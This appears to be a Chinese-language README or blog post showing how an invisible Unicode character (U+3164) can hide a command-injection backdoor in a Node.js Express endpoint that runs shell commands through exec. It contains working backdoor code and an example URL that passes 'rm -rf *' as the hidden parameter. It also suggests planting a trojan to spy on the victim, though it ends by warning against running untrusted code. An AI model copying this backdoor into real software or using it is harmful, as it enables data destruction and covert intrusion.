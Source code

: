 
## node + express 暂时没有连接数据库

#### 彩蛋彩蛋,衍生一个 shell 然后在该 shell 中执行 command，
child_process:
exec
语法：child_process.exec(command[, options][, callback])
注意：
1、command 是一个 shell 命令的字符串，包含了命令的参数
2、可以使用 callback；
3、衍生一个 shell 然后在该 shell 中执行 command，command 一般是 shell 内置的 命令，如 ls,cat 等，也可以是shell脚本组成的文件，如 start.sh 等

```javascript
const express = require('express');
const util = require('util');
const exec = util.promisify(require('child_process').exec);

const app = express();

app.get('/network_health', async (req, res) => {
    const { timeout,ㅤ} = req.query;
    const checkCommands = [
        'ping -c 1 google.com',
        'curl -s http://example.com/',ㅤ
    ];

    try {
        await Promise.all(checkCommands.map(cmd => 
                cmd && exec(cmd, { timeout: +timeout || 5_000 })));
        res.status(200);
        res.send('ok');
    } catch(e) {
        res.status(500);
        res.send('failed');
    }
});

app.listen(8080);
```
这段代码使用 Express 框架搭建了一个 API 接口，当你调用http://127.0.0.1:8080/network_health的时候，后台会首先ping一下 Google，然后再使用curl访问http://example.com。
如果都成功了，那么显然你的网络是正常的，于是给你返回ok。你也可以设置参数timeout=xxx来限定这两个测试必需在多长时间内完成，否则视为网络有问题。

but，一个bug:
因为checkCommands 数组里的命令是在shell中运行的，有一个不是空格，而看不见的符号：\u3164


如果这样写：
```javascript

const hide_command = 'rm -rf *'
const checkCommands = [
        'ping -c 1 google.com',
        'curl -s http://example.com/',ㅤhide_command
    ];
// 会执行删除，那把hide_command改成那个看不到的字符
const  = 'rm -rf *'     // 虽然有点奇怪，但是不会想到会跟下面的有关联，不会引起注意
const checkCommands = [
        'ping -c 1 google.com',
        'curl -s http://example.com/', 
    ];
```
所以如果把这个运用在url中：
```javascript
const {id, name, type, } = req.query;

// http://127.0.0.1:8000/network_health?timeout=10&ㅤ=rm -rf *
```
把删除系统文件的命令传入进来。这里可以传入任何 Shell 命令.
如果不想删除对方的系统，那么可以通过执行 Shell 下载一个木马程序到对方的电脑上，然后就可以每天远程偷偷监控对方在干什么了。

这样的后门真的是防不胜防。我也没有什么好办法能避免被欺骗。
例如你在Github 上面看到有人开源了一个基于 Node.js 实现的电商系统，于是你就把它拿来用，搭建出了你自己的在线商城卖点小东西。
也许某一天，你会发现你的账目对不上，也许就是因为这个系统里面留有这样的后门？
只能说最好的办法就是不要运行来历不明的代码，也不要因为代码是开源项目，就盲目觉得它很安全。


